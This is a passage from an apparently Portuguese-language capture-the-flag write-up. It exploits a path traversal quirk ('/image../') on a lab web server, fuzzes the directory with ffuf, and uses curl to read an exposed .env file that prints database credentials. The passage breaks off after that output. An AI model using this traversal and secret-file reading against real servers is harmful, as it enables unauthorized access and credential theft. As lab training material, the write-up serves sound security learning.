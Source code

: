 ```bash
┌──(kali㉿kali)-[~]
└─$ curl "http://10.0.1.227/image../"                
<html><body><h1>It works!</h1></body></html>
```

Perceba que eu não consegui com o convencional `/image/../` mas foi `/image../`. Eu particularmente nunca tinha visto isso assim, foi a primeira vez.

De posse dessa informação, foi só rodar um fuzzing novamente e encontramos a próxima flag.

{{< bs/toggle name=jsjsjs style=pills fill=false alignment=left >}}
{{< bs/toggle-item Fuzzing >}}
{{< highlight bash >}}
┌──(kali㉿kali)-[~]
└─$ ffuf -u "http://10.0.1.227/image../FUZZ" \
     -w /usr/share/wordlists/seclists/Fuzzing/fuzz-Bo0oM.txt \
     -fc 301 -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.1.227/image../FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Fuzzing/fuzz-Bo0oM.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

%2e%2e//google.com      [Status: 301, Size: 185, Words: 6, Lines: 8, Duration: 83ms]
.env                    [Status: 200, Size: 180, Words: 1, Lines: 11, Duration: 80ms]
cgi-bin/test-cgi        [Status: 200, Size: 1261, Words: 150, Lines: 43, Duration: 80ms]
index.html              [Status: 200, Size: 45, Words: 2, Lines: 2, Duration: 81ms]
:: Progress: [4842/4842] :: Job [1/1] :: 503 req/sec :: Duration: [0:00:10] :: Errors: 0 ::
{{< /highlight >}}
{{< /bs/toggle-item >}}

{{< bs/toggle-item "Lendo o arquivo .env" >}}
{{< highlight bash >}}
┌──(kali㉿kali)-[~]
└─$ curl "http://10.0.1.227/image../.env"
DB_PASSWORD=DontBrotherMe_CrackMeIfYouCan
DB_USER=postgres
DB_NAME=tshirts
DB_HOST=db
